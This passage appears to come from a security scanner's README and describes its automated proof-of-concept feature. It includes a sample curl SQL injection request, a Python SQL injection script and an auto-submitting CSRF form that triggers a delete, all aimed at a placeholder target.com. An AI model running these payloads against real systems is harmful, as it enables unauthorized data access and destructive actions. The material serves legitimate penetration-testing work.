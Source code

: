 
### 3. 💻 Automated PoC Generation

**Every Finding = Ready-to-Use Exploit**

#### Generated Artifacts

##### cURL Commands
```bash
curl -X POST "https://target.com/api/users" \
  -H "Content-Type: application/json" \
  -d '{"id":"1'"'"' OR '"'"'1'"'"'='"'"'1"}' \
  --insecure
```

##### Python Exploit Scripts
```python
#!/usr/bin/env python3
import requests

# Auto-generated exploit code
url = "https://target.com/api/users"
payload = "' OR '1'='1"

response = requests.post(url, json={"id": payload})
if "error" in response.text:
    print("[!] SQL Injection confirmed!")
```

##### HTML CSRF Forms
```html
<!DOCTYPE html>
<html>
<body>
  <form action="https://target.com/delete" method="POST">
    <input type="hidden" name="action" value="delete">
    <button type="submit">Trigger CSRF</button>
  </form>
  <script>document.forms[0].submit();</script>
</body>
</html>
```

#### Complete Documentation
- ✅ Step-by-step execution instructions
- ✅ Prerequisites and requirements
- ✅ Expected impact demonstration
- ✅ Remediation recommendations
- ✅ CVSS vector strings

---

### 4. 🔄 CI/CD Integration
